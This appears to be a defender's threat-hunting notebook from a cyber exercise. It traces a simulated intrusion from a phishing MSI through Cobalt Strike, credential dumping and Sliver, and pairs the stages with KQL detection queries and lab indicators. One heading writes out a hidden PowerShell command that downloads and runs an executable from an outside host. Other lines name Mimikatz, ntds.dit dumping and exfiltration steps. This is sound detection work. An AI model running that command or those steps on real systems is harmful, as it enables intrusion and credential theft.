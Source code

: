 # Ghost Hand

- `terran` -> `South Africa` -> `IT Admin` -> `Windows DC` -> `Many Endpoints` -> `infostealer`

## IPs TODAY

```
safrica-kali-4 - 101.44.253.14
terran-cobalt7 - 104.55.222.146


repotools.net - `104.53.222.99` - FOSS Server
watchdawgz.com - 104.53.222.47 - crypto-miner
sysperform.org - 104.53.222.115 - trojan

172.20.8.104 - mildred.sexton

orng-it-14  Willow armstrong
```

## Phishing

- RepoSync.msi (Service as SYSTEM)

Found downloaded *.msi

```kql
Downloads AND *.msi
```

See service installed

```kql
event.code:7045
```

- runs as a service

**Look for reg key HKLM\SOFTWARE\WOW6432Node\wmipmon**

- Cobalt Strike beacon

```kql
message:"Creating Scriptblock text" and winlog.task: "Execute a Remote Command" and FromBase64String
```

```
(destination.port:443) and 172.20.3.14 and sysperform.org
```

cobalt strike beacon update `1634`

```
```


**Look for files dropped in C:\Windows\Temp** - app_log, Southerland


repotools.net download

```kql
*repotools.net* AND source.ip:"1.33.170.2"  AND server.port:443
```

update_re.exe - 

```kql
update_re.exe and (process.executable:*Temp* OR process.executable:*TEMP*)
```

rundll32.exe - new process on it14

```

```

## Mimikatz

## `shell powershell -nop -w hidden -c "$p='C:\\Windows\\System32\\WMIHostAdapter.exe'; iwr 'https://repotools.net/download/WMIHostAdapter.exe' -OutFile $p; Start-Process $p"`



- drop cryptominer
- run cryptominer
- Dump local Credentials

## DC

- Dump Credentials - ntds.dit
- deploy sliver

**Look for powershell -hidden Invoke-WebRequest -Uri**

## Many Endpoints

- deploy sliver
- krazcoin exfil of $

```kql
message:"Creating Scriptblock text" and winlog.task: "Execute a Remote Command" AND powershell.file.script_block_text
```
- cobalt strike info of files > csv
